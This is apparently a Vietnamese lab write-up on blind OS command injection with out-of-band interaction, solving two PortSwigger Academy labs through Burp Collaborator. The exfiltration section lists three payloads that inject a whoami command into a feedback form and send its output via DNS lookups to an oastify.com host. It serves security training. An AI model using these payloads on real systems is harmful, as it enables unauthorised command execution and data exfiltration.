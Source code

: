 ```

### Phân tích

Đối với phương pháp sử dụng độ trễ thời gian, có thể xảy ra sai sót do ảnh hưởng của nhiều yếu tố như tốc độ đường truyền và không đồng bộ hệ thống. Ta cần một phương pháp "chắc chắn" hơn bằng cách tạo ra sự tương tác từ mục tiêu đến một địa điểm khác, sử dụng lệnh shell injection và DNS Lookup tới một domain khác.

Bình thường khi tấn công mục tiêu, thì chỉ có trao đổi qua lại giữa chúng ta và mục tiêu, không có sự tham gia của một đối tượng/thiết bị thứ ba, có thể hiểu quá trình hoàn toàn “khép kín”. Khi có sự tham gia của một đối tượng thứ ba để hỗ trợ cuộc khai thác sẽ được gọi là tấn công ngoài băng tần (OAST).

Mình đã phân tích DNS khá kĩ ở [tại đây](https://hackmd.io/oPD3hL5uSiiuZx6u7MS8Mg?view#1-Domain-Name-System)

Ta sẽ sử dụng tính năng Burp Collaborator (trong bản Burp Suite Professional) để hỗ trợ việc này.

 

Khi inject payload tới mục tiêu, trong đó thực hiện công việc gửi truy vấn tới url Burp Collaborator, nếu payload thực thi thành công, hệ thống sẽ tạo một sự tương tác tới Burp Collaborator, chúng ta có thể kiểm tra sự kiện tương tác này. 

Các lệnh thường sử dụng trong các trường hợp này có thể kể đến như dig, nslookup, ...

### [Thực hành lab Blind OS command injection with out-of-band interaction](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band)

![image](https://hackmd.io/_uploads/H1yakC2Op.png)

Để giải quyết bài lab, chúng ta cần thực hiện DNS lookup với Burp Collaborator nhằm kiểm tra lỗ hổng blind OS Command injection.

Kiểm tra DNS lookup trong chức năng Submit feedback bằng cách sử dụng lệnh dig hoặc nslookup : 

![image](https://hackmd.io/_uploads/SJDz-0hOp.png)

Kết quả

![image](https://hackmd.io/_uploads/S15YbC2uT.png)

### [Thực hành Lab: Blind OS command injection with out-of-band data exfiltration](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration)

![image](https://hackmd.io/_uploads/S1awzR2dT.png)


 Để giải quyết bài lab, chúng ta cần thực hiện lệnh whoami và trích xuất kết quả hiển thị thông qua truy vấn DNS tới Burp Collaborator.

Payload có thể như sau : 

- \||host+\`whoami`.kh54c9mjama6lraf9zm9ez4as1ysmja8.oastify.com||
- \||nslookup+\`whoami`.kh54c9mjama6lraf9zm9ez4as1ysmja8.oastify.com||
- `;nslookup+$(whoami).kh54c9mjama6lraf9zm9ez4as1ysmja8.oastify.com;`

Step 1 : 

![image](https://hackmd.io/_uploads/BJR67AhO6.png)

Step 2: 

```